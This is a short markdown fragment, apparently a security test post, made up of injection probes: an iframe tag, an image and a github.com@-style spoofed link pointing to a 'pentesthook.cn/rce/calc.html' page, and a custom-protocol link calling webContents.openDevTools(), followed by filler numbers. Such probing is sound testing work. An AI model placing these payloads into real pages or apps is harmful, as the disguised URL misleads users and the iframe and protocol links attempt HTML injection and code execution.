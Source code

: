 <iframe src="http://baidu.com">
![ ](https://pentesthook.cn/rce/calc.html)


https://github.com/user-attachments/assets/33fa590c-674c-42f2-b75c-64c43aa0ccf7



https://github.com@pentesthook.cn/rce/calc.html


x-ugit-client://webContents.openDevTools()
123
1123123
1
